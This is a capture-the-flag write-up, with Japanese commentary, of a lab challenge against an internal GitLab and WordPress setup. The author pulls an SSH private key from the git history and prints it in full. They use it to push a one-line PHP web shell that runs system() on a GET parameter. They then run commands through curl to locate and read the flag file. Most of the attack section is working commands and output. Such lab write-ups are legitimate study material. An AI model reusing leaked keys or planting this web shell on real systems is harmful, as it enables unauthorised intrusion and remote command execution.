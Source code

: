```
git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
```
![image](https://user-images.githubusercontent.com/6504854/209685487-d6be48c2-e8af-4c13-9a96-55332a790dd3.png)

```
cd wordpress.flag.net.internal
git log
```

![image](https://user-images.githubusercontent.com/6504854/209685710-9cda9abb-f15f-44a7-a1b6-db10fc400181.png)

```
git show e19f653bde9ea3de6af21a587e41e7a909db1ca5
```

![image](https://user-images.githubusercontent.com/6504854/209686086-8f03dd2d-aa19-46a9-85df-c933a6cb54e9.png)

```
grinchum-land:~/wordpress.flag.net.internal$ mkdir ../.ssh
grinchum-land:~/wordpress.flag.net.internal$ vi ../.ssh/key
```
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```
```
grinchum-land:~/wordpress.flag.net.internal$ chmod 600 ../.ssh/key
ssh -T git@gitlab.flag.net.internal -i ~.ssh/key
```

```
ED25519 key fingerprint is SHA256:jW9axa8onAWH+31D5iHA2BYliy2AfsFNaqomfCzb2vg.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'gitlab.flag.net.internal' (ED25519) to the list of known hosts.
Welcome to GitLab, @knee-oh
```

```
grinchum-land:~/wordpress.flag.net.internal$ vi 1.php
```
```
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```
```
grinchum-land:~/wordpress.flag.net.internal$ git config --global user.email "you@example.com"
grinchum-land:~/wordpress.flag.net.internal$ git config --global user.name "Your Name"
grinchum-land:~/wordpress.flag.net.internal$ git add 1.php
grinchum-land:~/wordpress.flag.net.internal$ git commit 1.php -m "cmd"
[main 5387726] cmd
 1 file changed, 6 insertions(+)
 create mode 100644 1.php
```
 
```
grinchum-land:~/wordpress.flag.net.internal$ git push
Username for 'http://gitlab.flag.net.internal': 
Password for 'http://gitlab.flag.net.internal': 
remote: HTTP Basic: Access denied. The provided password or token is incorrect or your account has 2FA enabled and you must use a personal access token instead of a password. See http://gitlab.flag.net.internal/help/topics/git/troubleshooting_git#error-on-git-fetch-http-basic-access-denied
```
IDとパスワードがわからないのでSSH鍵でPUSHする方法を探した

https://docs.gitlab.com/ee/user/ssh.html

```
grinchum-land:~/.ssh$ eval $(ssh-agent -s)
Agent pid 509
grinchum-land:~/.ssh$ ssh-add /home/samways/.ssh/key
Identity added: /home/samways/.ssh/key (sporx@kringlecon.com)
grinchum-land:~/.ssh$ vi config
```

```
Host gitlab.flag.net.internal
    PreferredAuthentications publickey
    IdentityFile home/samways/.ssh/key
```

```
grinchum-land:~/.ssh$ cd ../w*
grinchum-land:~/wordpress.flag.net.internal$
git remote set-url origin ssh://git@gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
grinchum-land:~/wordpress.flag.net.internal$ git remote -v
origin  ssh://git@gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git (fetch)
origin  ssh://git@gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git (push)
grinchum-land:~/wordpress.flag.net.internal$ git push
```

```
grinchum-land:~/wordpress.flag.net.internal$ curl http://wordpress.flag.net.internal/1.php?cmd=ls
1.php
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
xmlrpc.php
```

```
grinchum-land:~/wordpress.flag.net.internal$ curl http://wordpress.flag.net.internal/1.php?cmd=find%20/%20-name%20*flag*.*
```
![image](https://user-images.githubusercontent.com/6504854/209704481-8c9b649f-f049-4058-b1c3-2f2b3d20bc82.png)

```
grinchum-land:~/wordpress.flag.net.internal$ curl http://wordpress.flag.net.internal/1.php?cmd=cat%20/flag.txt
```

普通にReversShellはったら重すぎで動かなかったのでPHPのワンライナー系になった。

要求されてる方向性がわからず、３日かかった。

あとGitLabのレポジトリをHTTPからSSHへ変更するとこで１日はまった。公式ドキュメント神。

